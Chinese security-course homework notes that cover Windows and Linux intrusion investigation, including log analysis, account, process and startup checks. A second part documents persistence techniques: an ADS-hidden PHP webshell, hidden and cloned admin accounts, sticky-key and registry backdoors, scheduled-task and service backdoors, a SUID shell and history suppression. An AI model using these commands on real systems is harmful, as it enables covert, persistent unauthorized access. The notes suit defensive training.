## 作业1
### 使用 hydra 或者超级弱口令工具分别对 Windows 系统和 Linux 系统进行爆破，检查系统账号安全，分析爆破日志，不限使用工具。
- 实验：使用hydra或超级弱口令，观察爆破（远程桌面RDP服务）后，查看事件查看器中windows日志的特征
    
    
    - 导出windows安全日志，利用微软官方工具Log Parser进行分析
      - 下载后，将日志文件保存到安装目录下， 在该目录下，使用命令行，执行指令，进行安全日志分析
      ```
      Logparser.exe -i:evt "select top 100 * from Security.evtx" -o:DATAGRID

      参数使用
      -i 输入源/
      中间部分：sql语句
      -o:输出格式
      ```
      

- 实验2：使用超级弱口令对linux系统进行爆破
  - 爆破192.168.0.88 CentOS的ssh服务
  
  - 在/var/log/secure中可观察到爆破的记录
  
  - 使用linux指令查询爆破字典
  ```
  grep "Failed password" /var/log/secure | perl -e 'while($_=<>){ /for(.*?) from/; 
  print "$1\n";}' | uniq -c|sort -nr
  ```
  


## 作业2
### Windows入侵排查
- 使用环境：Windows Server 2008
- 基础掌握：Windows和Linux查看进程，查看服务，查看启动项，查看端口等基础掌握

- <font color=tomato>检查系统账号安全</font>
  - 查看服务器是否有弱口令，远程管理端口是否对公网开放
    - 检查方法： 根据实际情况咨询相关服务器管理员
  - 查看服务器是否存在可疑账号、新增账号
    - 检查方法：<font color=tomato>打开cmd窗口，输入lusrmgr.msc命令</font>，（<font color=tomato>或者从win -> 计算机管理 -> 本地用户和组</font>）查看是否有新增/可疑的账号，如有管理员群组的（Administrators）里的新增账户，请立即禁用或删除
    ```
    windows用户管理命令：
    net user 查看当前设备的所有用户（无法查看隐藏用户）

    net user /add geektime1  新增用户

    net user /add geektime2$  新增隐藏用户
    （可以在lusrmgr.msc的本地用户和组中可以查看隐藏用户）

    切换用户也可以排查隐藏用户
    ```
  - 查看服务器是否存在隐藏账号，克隆账号
    - 检查方法1：使用D盾查杀
    - 检查方法2：打开注册表，查看管理员对应键值
  - 结合日志，查看管理员登录时间，用户名是否存在异常（需要额外判断，管理员的密码是否可能爆破成功，若无可能，则这步可以省略）
    - 检查方法1：<font color=tomato>Win+R打开运行，输入eventvwr.msc，</font>回车运行，打开时间查看器，查看windows日志（主要查看系统日志和安全日志，次看应用程序日志），主要看其中的事件ID和任务类别
    
    
    - 实验：使用hydra或超级弱口令，观察爆破（远程桌面RDP服务）后，查看事件查看器中windows日志的特征
    
    
    - 导出windows安全日志，利用微软官方工具Log Parser进行分析
      - 下载后，将日志文件保存到安装目录下， 在该目录下，使用命令行，执行指令，进行安全日志分析
      ```
      Logparser.exe -i:evt "select top 100 * from Security.evtx" -o:DATAGRID

      参数使用
      -i 输入源
      中间部分：sql语句
      -o:输出格式
      ```
      


- <font color=tomato>查看异常端口、进程</font>
  - 检查网络连接情况，是否有远程连接，可疑连接
    - 实验环境：使用kali制作一个后门程序，在win2008连接
    - 检查方法1： 运行`netstat -ano`
    
    - 可以看到建立连接的进程，然后通过`tasklist | findstr 3052`
    
    - 可以定位到5555.exe程序这个可疑文件
    - 执行`tasklist /svc | finder 3052` 对这个程序的详细信息进行查看（tasklist /svc，可以打印出进程和服务对应的信息）
    
    - 进程无描述，再度可疑
    - 开始--运行--输入`msinfo32`，依次点击“软件环境--正在运行任务”就可以查看到进程详细信息，比如（<font color=tomato>进程路径、进程ID、文件创建日期以及启动时间</font>）
    
    - 或者也可以直接用D盾这类安全软件进行扫描
    - 或者用微软官方的Process Explorer工具进行排查
    
    - 该系统大量引用系统的dll文件，启动时间不正常，且无程序描述，而且使管理员权限，综合考虑，很可疑
    - 总结：可疑进程，可观察以下信息
    ```
    1.没有签名验证信息的进程
    2.没有描述信息的进程
    3.进程的属主
    4.进程路径是否合法
    5.CPU或内存资源占用时间过高的进程（比如挖矿）
    ```
    - 查看window服务所对应的端口
    ```
    %systemroot%/system32/drivers/etc/services(一般%systemroot% 就是 C:\windows路径)
    ```
    - 也可以把恶意文件放入在线的查杀引擎中进行排查：例如：https://www.virustotal.com/gui/home/upload

- <font color=tomato>检查启动项、计划任务、服务</font>
  - 检查服务器是否有异常启动项
    - 检查方法1：登录服务器，“开始--所有程序--启动”，默认情况下此目录是一个空目录，确认是否有业务程序在该目录下
    
    - 检查方法2：单击“菜单--运行”，输入`msconfig`，查看是否存在命名异常的启动项目，是则取消勾选命名异常启动项目(查看制造商是否异常或为空值，或者直接问管理员)，并到命令中显示的路径中删除文件
    
    
    - 检查方法3：单击“开始--运行”，输入`regedit`，打开注册表，查看开机启动项是否正常，特别注意如下三个注册表项（找一台没有被攻击的机器，和问题机器进行对比，如果出现异常，在找管理员进行询问）
    ```
    HKEY_CURRENT_USER/Software/Microsoft/Windows/CurrentVersion/run
    HKEY_LOCAL_MACHINE/Software/Microsoft/Windows/CurrentVersion/Run
    HKEY_LOCAL_MACHINE/Software/Microsoft/Windows/CurrentVersion/Runonce
    ```
    - 检查上述注册表项右侧是否有启动异常项目，如有请删除，并建议安装杀毒软件进行病毒查杀，清除残留病毒或木马
    - 检查方法4：利用安全软件查看启动项，开机时间管理等
    - 检测方法5： 组策略，运行gpedit.msc，查看开关机属性中有没有异常脚本被植入（在关机的时候植入脚本的目的是，躲避杀毒软件的查杀，因为关机过程中，系统会一个一个的关闭所有进程，所以有可能在杀毒软件关闭，但是系统还没有关闭的时候，脚本成功运行）
     

  - 检查服务器有没有异常的计划任务
    - 检查方法1：在桌面打开【运行】，输入control打开控制面板，在系统与安全中查看计划任务，便可以查看到具体的计划任务和相关属性（如果不熟悉windows系统，可以找一台没有问题的机器进行比对，找到问题后在询问管理员，主要查看路径信息，文件描述等，观察是否有异常项，比如描述为空）
    

  - 检查服务器是否有异常服务
    - 检查方法：在桌面打开运行，输入services.msc，查看服务状态和启动类型，检查是否有异常服务（一般来说，异常服务通常不带描述）
    
  

### Linux系统的入侵排查
- 账号安全
  - 基本使用
  ```
  1. 用户信息文件 /etc/passwd

  2. 影子文件 /etc/shadow
  date -d "1970-01-01 19049days" 查看19049代表的具体日期

  3. who    查看当前登录用户
     w      查看系统信息，想知道某一时刻用户的行为
     uptime 查看登录时间，多少用户，负载状态
  ```
  - 入侵排查
  ```
  1. 查询特权用户
  [root@localhost ~]# awk -F: '$3==0{print $1}' /etc/passwd

  2. 查询可以远程登录的账号信息
  [root@localhost ~]# awk '/\$1|\$6/{print $1}' /etc/shadow
  
  3. 除root账号外，其他账号是否存在sudo权限，如非管理需要，普通账号应删除sudo权限
  [root@localhost ~]# more /etc/sudoers | grep -v "^#\|^$" | grep "ALL=(ALL)"

  4. 禁用或删除多余及可疑的账
  usermod -L user    禁用账号，账号无法登录，/etc/shadow 第二栏为 ! 开头
  userdel user       删除user用户
  userdel -r user    删除 user 用户，并且将 /home 目录下的 user 目录一并删除
  ```
  - 历史命令
  ```
  通过.bash_history文件查看账号执行的系统命令
  1. 查看当前用户的历史命令
  history

  2. 打开/home各账号目录下，.bash_history，查看普通账号执行的历史命令

  3. 历史操作命令清除：history -c（需要一定权限）
  但此命令并不会清除保存在文件中的记录，因此需手动清除.bash_history文件中记录

  4. 进入用户目录下，导出历史命令
  cat .bash_history >> history.txt
  ```
  - 检查异常网络连接
  ```
  使用netstat网络连接命令，分析可疑端口、IP、PID
  netstat -antlp

  查看pid所对应的进程文件路径
  运行ls -l /proc/$PID/exe 或 file/proc/$PID/exe ($PID为对应pid号)
  ```
  - 检查异常进程
  ```
  使用ps命令，分析进程
  ps aux | grep pid
  ```
  - 检查开机启动项
    - 使用`runlevel`可以查看运行级别
    - 开机启动配置文件
    ```
    /etc/rc.d/rc.local
    /etc/rc.d/rc[0~6].d
    ```
    - 使用`chkconfig`命令用于检查、设置系统的各种服务
    ```
    chkconfig --list [name]  // 服务列表（可根据实际需要，停掉不用服务）
    chkconfig --add [name]   // 服务添加（如缺省，则从缺省的init脚本自动建立）
    chkconfig --del [name]   // 服务删除（并把相关符号连接从/etc/rc[0-6].d删除）
     ```
     - 当我们需要设置开机启动的脚本时，只需要将可执行脚本放在/etc/init.d目录下，然后在/etc/rc.d/rc*.d目录下建立软连接即可。
     - 实验：新建一个自启动的脚本文件
    ```
    1. 在init.d目录下，新建一个脚本文件
    2. 给新建的脚本文件赋权 chmod 777 test.sh
    3. 将新建的脚本文件添加到服务列表
    chkconfig --add test.sh
    ```
    
    - 在对应的文件目录下生成脚本的软连接文件
  
    
    - 重启之后就会在tmp文件下生成一个test.txt文件，实验成功
  
    
  
    - 彻底删除脚本启动项
    ```
    1. chkconfig --del [name]  // 先从服务删除
    2. 进入/etc/init.d中，删除脚本文件
    ```
    

  - 检查定时任务
    - 利用`crontab`创建计划任务（设置周期性执行的指令）
    ```
    crontab -l  列出某个用户定时任务的详细内容

    Tips: 默认编写的crontab文件会保存在（/var/spool/cron/用户名，例如：/var/spool/cron/root）

    crontab -r  删除每个用户的cron任务（谨慎：删除所有的计划任务）

    crontab -e  使用编辑器编辑当前的crontab文件

    案例：
    */1 * * * * echo "hello world" >> /temp/test.txt
    （五个星号分别表示：分；时；日；月；周；*/1表示每分钟）
    ```
    - 入侵排查
    ```
    /var/spool/cron/* 
    /etc/crontab
    /etc/cron.d/*
    /etc/cron.daily/* 
    /etc/cron.hourly/* 
    /etc/cron.monthly/*
    /etc/cron.weekly/
    /etc/anacrontab
    /var/spool/anacron/*
    
    小技巧；
    more /etc/cron.daily/*  查看/etc/cron.daily目录下所有文件
    ```
    

  - 检查服务
    - 服务自启
    ```
    修改方法1：
    chkconfig [--level 运行级别] [独立服务名] [on|off]
    chkconfig --level 2345 httpd on
    chkconfig httpd on (默认level是2345)

    修改方法2：
    修改 /etc/rc.d/rc.local  文件
    加入 /etc/init.d/httpd start
    ```
    - 入侵排查
    ```
    查询RPM包安装的服务
    chkconfig --list  查看服务自启状态，可以看到所有的RPM包安装的服务
    ps aux | grep crond  查看当前服务

    查看源码包安装的服务
    源码包服务的启动管理：/usr/local/
    源码包服务的自启动管理：/etc/rc.d/init.d
    ```

  - 检查异常文件
    - 查看敏感目录，如/tmp目录下的文件，同时注意隐藏目录，以..为名的文件夹具有隐藏属性
    - 排查Webshell，远控木马的创建时间
    ```
    如何找出同一时间范围内创建的文件
    可以使用find命令来查找，如：find /opt -iname "*" -atime 1 -type f
    (找出 /opt下一天前访问过的文件)
    ```
  - 检查系统日志
    - 日志默认存放位置： /var/log/
    - 查看日志配置情况：more /etc/rsyslog.conf
  
    

    - 日志排查技巧
    ```
    1、定位有多少IP在爆破主机的root账号：    
    grep "Failed password for root" /var/log/secure | awk '{print $11}' | sort | uniq -c | sort -nr | more

    2、定位有哪些IP在爆破：
    grep "Failed password" /var/log/secure | grep -E -o "(25[0-5]|2[0-4][0-9]|[01]?[0-9][0-9]?)\.(25[0-5]|2[0-4][0-9]|[01]?[0-9][0-9]?)\.(25[0-5]|2[0-4][0-9]|[01]?[0-9][0-9]?)\.(25[0-5]|2[0-4][0-9]|[01]?[0-9][0-9]?)"|uniq -c

    3、爆破用户名字典是什么？
    grep "Failed password" /var/log/secure|perl -e 'while($_=<>){ /for(.*?) from/;
    print "$1\n";}' | uniq -c | sort -nr
    
    4、登录成功的IP有哪些：   
    grep "Accepted " /var/log/secure | awk '{print $11}' | sort | uniq -c | sort -nr| more

    5、登录成功的日期、用户名、IP：
    grep "Accepted " /var/log/secure | awk '{print $1,$2,$3,$9,$11}'
    ```

## 作业3
### 使用河马进行查杀


### 使用shell Detector


### 作业4
#### windows权限维持-隐藏
##### 隐藏文件
- 利用文件属性
  - 最简单的一种隐藏文件的方式，文件右键属性，勾选隐藏，点击确定后，在这个文件夹里看不到刚刚的文件了
  
  - 查看属性隐藏的文件
    - 组织--文件夹和搜索选项--查看--显示隐藏的文件...(win2008)

- 真正隐藏文件：
  - 使用Attrib +s +a +h +r命令就是把原本的文件增加了系统文件属性，存档文件属性，只读文件属性和隐藏文件属性
  ```
  arrtib +s +a +h +r test.txt
  ```
  
  - 隐藏原理：因为windows默认隐藏受保护系统文件，
  - 查看：
    - 组织--文件夹和搜索选项--查看--隐藏受保护系统文件（取消勾选）
  

- 利用ADS隐藏文件内容
  - 在服务器上echo一个数据流文件
  ```
  echo ^<?php @eval($_POST['test']);?^> > test.txt:hidden.jpg
  此时index.php变成了宿主文件，一句话木马寄宿在了index.php上，成为寄宿文件
  ```
  
  - 查看寄宿文件：
  ```
  dir /r
  ```
  
  - 删除方法：和宿主文件一起删除

##### 隐藏账号
- Windows隐藏系统用户操作，CMD命令下，建立一个用户名为test$，密码为111qqq的简单隐藏账户，并且把该账户提升为管理员权限
```
net user test$ qwe123.. /add
```


- 克隆账号
  - 第一步：开始--运行--输入regedit后回车，到“HKEY_LOCAL_MACHINE\SAM\SAM”
  - 第二步：右键权限，赋予完全控制权限，然后重启注册表



  - 第三步：将administrator的F的二进制数据，复制到test$用户的配置中

  - 切换到$test用户，查看当前用户权限

  - 克隆账户成功

#### Linux 权限维持-隐藏
- 隐藏文件
  - 文件名前加.（点 ）

- 隐藏文件时间戳
  - Linux下隐藏后门必须要修改事件，否则容易被发现，直接利用touch就可以了
  ```
  touch -t <指定时间戳> <文件名>

  例如：touch -t 1908081042.30 one.php
  ```

- 隐藏权限
  - 在Linux中，使用chattr命令为文件添加锁定属性，来防止root和其他管理用户误删除和修改重要文件及目录，此权限ls -l查看不出来，从而达到隐藏锁定权限的目的
  ```
  chattr +i evil.php 为文件添加锁定属性
  // 此时文件无法被删除
  lsattr evil.php  可以查看到锁定属性+i

  chattr -i evil.php  解除锁定
  rm -rf evil.php  删除文件
  ```

- 隐藏历史命令
  - 临时禁用历史记录
  ```
  set +o history
  ```
  - 重新开启历史记录
  ```
  set -o history
  ```
  - 从历史记录删除指定记录
  ```
  history -d [num]
  ```

### 作业5
#### Windows权限维持-后门
- 粘滞键后门
  - 概述：粘滞键指的是电脑使用中的一种快捷键，专为同时按下两个或多个键有困难的人而设计的。粘滞键的主要功能是方便Shift等键的组合使用。一般的电脑连按五次shift会出现粘滞键提示。sethc.exe就是windows中粘滞键的调用文件
  - sethc.exe文件的属性，默认情况下是属于TrustedInstaller所有，不管是普通用户还是administrator都没有权限对它进行编辑的。TrustedInstaller是一个安全机制，权限比administrator管理权高，但比system低。
  - 将sethc.exe的权限的所有者改为administrator，然后赋予完全控制，然后更改名称
  
  
  

- Logon Script后门
  - 概述：Logon Scripts是Windows登录脚本，当用户登录时触发，它能够优先于杀毒软件执行，从而绕过杀毒软件对敏感操作的拦截。
  - 将后门程序加入注册表HKEY_CURRENT_USER\Environment
  ```
  REG ADD "HKEY_CURRENT_USER\Environment" /v UserInitMprLogonScript /t REG_SZ /d "C:\Users\Administrator\Desktop\5555.exe"
  ```
  
  - 切换用户，触发后门程序
  

- 映像劫持
  - 修改注册表：HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options
  ```
  reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution
  Options\sethc.exe" /v "Debugger" /t REG_SZ /d "c:\windows\system32\cmd.exe" /f
  ```
  
  

- 注册表自启动后门
  - 方法1：
  - 注册表位置；HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
  - 添加键test1,值为后门程序路径
  ```
  REG ADD "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" /v test1 /t REG_SZ /d "C:\Users\Administrator\Desktop\7764.exe"
  ```
  
  - 重启后，成功启动后门程序
  
  - 方法2：
  - 注册表位置：HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon
  - 修改Userinit的值，重启后自动运行程序

- 计划任务后门
  - schtasks命令设定计划自启动后门程序
  ```
  schtasks /Create /tn Updater /tr C:\Users\Aministrator\Desktop\5555.exe /sc minute /mo 1
  # 每1分钟自动执行5555.exe
  ```
  ```
  chcp 437  # 修改编码
  schtasks  # 查看计划任务
  ```
  
  
  - 删除计划任务
  ```
  schtasks /delete /tn Updater
  ```
  

- 服务自启动后门（推荐，绑定服务）
  - 自启动服务一般是在电脑启动加载指定的服务程序，我们可以将exe文件注册为服务，也可以将dll文件注册为服务
  ```
  sc create test binpath= C:\Users\Administrator\Desktop\5555.exe （注意等号后面有空格）#创建服务
  sc config test start= auto  #设置服务为自动启动  
  net start test              #启动服物            
  ```
  
  - 成功连接后门
  
  - 且服务启动过程中，无法删除


#### Linux权限维持-后门
- SUID Shell
  - SUID SHELL是一种可用于以拥有者权限运行的shell
  ```
  cp /bin/bash /tmp/shell
  chmod u+s /tmp/shell
  ```
  
  - 使用普通用户权限执行
  ```
  /tmp/shell -p
  ```
  
  - 排查
  ```
  # 在Linux中查找使用SUID设置的文件
  find . -perm /4000 
  # 在Linux中查找使用SGID设置的文件
  find . -perm /2000
  # 取消s权限
  chmod u-s /tmp/shell
  ```

- SSH免密登录
  - /etc/ssh/sshd_config的配置
  ```
  PermitRootLogin yes
  Pu keyAuthentication yes
  // 修改这两项配置
  ```
  
  - 启动ssh服务
  ```
  systemctl sshd start
  ```
  - 在攻击者服务器上执行生成一对公私钥
  ```
  ssh-keygen -t rsa
  ```
  - 生成的公私钥在root/.ssh/中
  
  - 然后安装公钥
  ```
  cat id_rsa.pub >> authorized_keys
  ```
  - 在ssh客户端使用私钥连接
  
  - 成功登录
  

